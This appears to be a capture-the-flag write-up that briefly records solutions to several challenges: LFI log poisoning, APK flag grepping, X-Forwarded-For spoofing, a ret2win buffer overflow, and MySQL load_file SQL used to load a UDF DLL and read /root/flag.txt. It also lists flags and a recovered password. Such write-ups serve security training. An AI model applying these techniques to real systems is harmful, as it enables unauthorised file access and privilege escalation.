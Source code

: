 `flag{cadbbfd75d2547700221f8c2588e026e}`

#### PHP LFI and FTP Log Poisoning

`PoC`: [RCE via LFI Log Poisoning - The Death Potion](https://shahjerry33.medium.com/rce-via-lfi-log-poisoning-the-death-potion-c0831cebc16d)
![log poisoning](https://imgur.com/a/gcXMev7)
`flag`: `flag{892427c840bdb0f4cf16af94b7312804}`

Have not solved yet.

## Andra

unzipped the apk and grepped for `flag{`
`flag{d9f72316dbe7ceab0db10bed1a738482}`

## Homeward Bound

Used burpsuite to forge `X-Forwared-For: 127.0.0.1` headers
`flag{26080a2216e95746ec3e932002b9baa4}`

## Ret2Basic

buffer overflow 120 characters + address of `win` function == flag!
`flag{d07f3219a8715e9339f31cfbe09d6502}`

----

### Orion Morra - Support - Path3

`Twitter`: `https://twitter.com/OrionMorra`
`Flag in picture`: `flag{0bcffb17cbcbf4359a42ec45d0ccaf2}`
`password on sticky note`: `stars4love4life`

#### PoC Stage 3 Path 3

`Used`: `https://recipeforroot.com/mysql-to-system-root/`

```sql
USE mysql;
CREATE TABLE potato(line blob);
INSERT INTO potato values(load_file('C://Users//Bob//Desktop//lib_mysqludf_sys.dll'));
SELECT * from potato;
```

#### Attack Stage 3 Path 3

```sql
USE mysql;
CREATE TABLE potato(line blob);
INSERT INTO potato values(load_file('/root/flag.txt'));
```

`root flag`: `flag{183bdf6f145a1c97f0b4f520355e8ed5}`
